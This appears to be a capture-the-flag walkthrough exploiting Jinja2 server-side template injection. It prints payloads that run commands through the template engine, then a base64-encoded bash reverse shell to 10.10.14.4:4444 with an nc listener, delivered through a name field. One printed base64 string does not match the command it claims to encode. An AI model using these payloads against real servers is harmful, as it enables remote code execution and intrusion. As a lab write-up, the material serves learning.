








To try a SSTI we visit → https://github.com/swisskyrepo/PayloadsAllTheThings and search “Server Side Templated Injection” then go to “Python.md”, “Jinja2-Remote Code Execution”.



We choose the following code: 
```bash
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('id').read() }}
```


And We got



We will know where we are, so we use 
```bash
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('hostname -I').read() }} to get IP.
```


At this stage we know the site is vulnerable to SSTI so we can inject a payload and get a shell. First we base64 encode our payload, then start a listener locally.
```bash
$ echo -ne 'bash -i >& /dev/tcp/10.10.14.4/4444 0>&1' | base64
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yNS80NDQ0IDA+JjE=
$ nc -lvvp 4444
```


Then we construct a basic SSTI payload to deliver on site through the name field.
```bash
{{config.__class__.__init__.__globals__['os'].popen('echo${IFS}YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC40LzQ0NDQgMD4mMQ==${IFS}|base64${IFS}-d|bash').read()}}
```


And in our listener we have a reverse shell



We can now go into the user directory and access the flag.




[Back](README.md)